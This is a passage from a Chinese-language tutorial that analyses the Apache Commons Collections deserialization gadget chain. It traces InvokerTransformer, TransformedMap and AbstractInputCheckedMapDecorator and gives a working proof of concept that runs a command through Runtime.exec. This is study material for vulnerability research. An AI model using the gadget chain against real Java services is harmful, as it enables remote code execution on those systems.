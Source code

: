 ```java
Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```
_通过反射，获取类，调用方法，均可控。_
## 一步步测试
```java
import org.apache.commons.collections.functors.InvokerTransformer;
public class Demo1 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);
    }
}
```
```java
public Process exec(String command, String[] envp) throws IOException {
        return exec(command, envp, null);
    }
```
Runtime.getRuntime() 是 Java 中的一个静态方法，它返回一个代表当前应用程序运行时环境的 Runtime 对象。
构造函数，第一个传入方法名，第二个传入要反射方法的参数类型原型，很显然要传入String原型。第三个要传入执行的命令，由于构造函数规定了参数类型，所以调用的时候也要写相应的类型。
最后transform调用，传入runtime对象，实现命令执行。
这就是通过Invoketransformer进行rce。
## transformedmap
这里主要是寻找不名为transform的方法调用transform方法。
寻找transoformedmap类
```java
protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```
构造方法有个封装，找到入口
```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```
## AbstractInputCheckedMapDecorator类
```java
public Object setValue(Object value) {
            value = this.parent.checkSetValue(value);
            return this.entry.setValue(value);
        }
    }
```
由于调用构造函数的时候会一直调用父类构造方法。这是transformedmap的父类，其父类是
## demo2
```java
import org.apache.commons.collections.functors.InvokerTransformer;
```